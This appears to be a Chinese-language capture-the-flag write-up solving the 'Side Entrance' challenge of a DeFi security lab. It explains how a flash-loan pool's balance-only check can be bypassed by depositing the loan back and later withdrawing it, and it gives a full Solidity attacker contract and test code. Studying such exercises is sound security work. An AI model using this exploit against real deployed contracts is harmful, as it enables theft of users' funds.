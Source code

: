 解决思路：

在`SideEntranceLenderPool.sol`中，`SideEntranceLenderPool`既提供了闪电贷功能，又提供了存入功能，这个则是“灾难的”。在闪电贷中，借入和归还都是通过transfer进行的，并没有对相关手段作出特别的校验，最终只会通过`if (address(*this*).balance < balanceBefore)`进行余额上的检查。但如果合约又同时提供了存入、取出却没有进行任何限制，攻击者通过`deposit`也能绕过`flashLoan`的验证，同时还能在之后通过`withdraw`进行提取。



我们需要手写合约，具体如下：

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "./SideEntranceLenderPool.sol";

contract Hacker{

    SideEntranceLenderPool pool;
    address owner;

    uint constant AMOUNT = 1000 * 10**18;

    constructor (address _pool) {
        pool = SideEntranceLenderPool(_pool);
        owner = msg.sender;
    }

    function attack() public{
        pool.flashLoan(AMOUNT);
    }

    function execute() public payable{
        pool.deposit{value:msg.value}();
    }

    function withdraw() public {
        pool.withdraw();
    }

    receive() external payable {
        payable(owner).transfer(msg.value);
    }

}
```

在`test/side-entrance/side-entrance.challenge.js`中，具体代码如下：

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const hacker = await (await ethers.getContractFactory('Hacker', player)).deploy(pool.address);
        await hacker.attack();
        await hacker.withdraw();
    });
```
